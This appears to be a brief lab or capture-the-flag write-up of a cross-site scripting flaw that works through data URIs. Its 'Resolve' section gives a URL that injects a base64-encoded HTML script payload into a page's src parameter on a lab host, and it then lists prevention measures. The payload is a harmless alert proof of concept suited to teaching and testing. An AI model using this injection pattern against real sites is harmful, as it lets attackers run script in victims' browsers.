 # Vulnerability

A data URI is a way to include small data files inline in HTML or CSS, using a base64-encoded string prefixed by a MIME type.

# Identification

data:[mediatype][;base64],data

# Resolve

http://10.11.249.210/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnSGVsbG93b3JsZCcpPC9zY3JpcHQ+

# Prevent

- Input Validation and Sanitization
- Content Security Policy (CSP)
- Disable Data URIs for Certain Elements
- Use Security Libraries
- Regular Expression Filtering
- Limit File Upload Types

# Resources

https://zofixer.com/what-is-cross-site-scripting-xss-off-domain-data-uri-vulnerability/
